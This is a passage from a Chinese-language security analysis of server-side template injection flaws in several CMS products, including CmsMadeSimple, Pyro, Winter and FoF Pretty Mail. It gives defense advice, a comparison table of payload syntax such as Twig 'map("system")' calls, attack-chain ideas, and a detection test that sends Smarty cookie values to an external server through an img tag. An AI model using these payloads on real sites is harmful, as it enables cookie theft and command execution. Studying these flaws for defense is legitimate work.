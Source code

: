 ------

### **防御建议**

1. **输入过滤**：对用户输入内容中的Smarty语法（`{$}`、`{{}}`）进行转义或禁用。
2. **权限控制**：限制内容编辑权限，避免低权限用户操作敏感功能。
3. **输出编码**：在渲染页面时对动态内容进行HTML编码，防止标签注入。
4. **更新补丁**：升级至官方修复版本，或禁用模板引擎的Cookie变量访问。

------

### **与其他SSTI漏洞对比**

| 漏洞名称                 | 利用场景             | 权限要求     | 注入方式                      | 关键函数/语法                              |      |
| :----------------------- | :------------------- | :----------- | :---------------------------- | :----------------------------------------- | ---- |
| **CmsMadeSimple SSTI**   | 内容编辑模块（后台） | 内容编辑权限 | Smarty变量`{$smarty.cookies}` | `{$smarty.cookies.XXX}`                    |      |
| **Pyro CMS SSTI**        | 角色描述编辑（后台） | 管理员权限   | Twig过滤器`map("system")`     | `{{[...]                | map("system")}}` |      |
| **Winter CMS SSTI**      | CMS模板编辑（后台）  | 管理员权限   | Twig内置函数`dump()`          | `{{ dump() }}`                             |      |
| **FoF Pretty Mail SSTI** | 邮件模板编辑（后台） | 管理员权限   | 直接调用`system()`            | `{{ system() }}`                           |      |

------

### **攻击链扩展**

- **横向移动**：通过劫持管理员Cookie访问后台功能，进一步植入恶意代码。
- **数据窃取**：读取用户隐私数据或数据库配置（如`{$smarty.config}`）。
- **持久化攻击**：修改系统模板植入长期后门。

------

### **检测与修复验证**

1. **漏洞检测**：
   - 输入`{$smarty.version}`观察是否返回Smarty版本号。
   - 尝试注入`<img src="外部服务器/{$smarty.cookies.TEST}">`验证外传请求。
2. **修复验证**：
   - 检查内容字段是否过滤`{$smarty.cookies}`语法。
   - 确认页面渲染时动态内容已进行HTML编码。

------

**总结**：CmsMadeSimple的SSTI漏洞通过模板变量直接泄露用户Cookie，攻击门槛低且危害直接。需结合严格的输入过滤和权限隔离阻断攻击路径。

## 七、 MotoCMS 3.4.3 SSTI漏洞分析

[MotoCMS Version 3.4.3 - Server-Side Template Injection (SSTI) - Multiple webapps Exploit](https://www.exploit-db.com/exploits/51499)

### **漏洞概述**
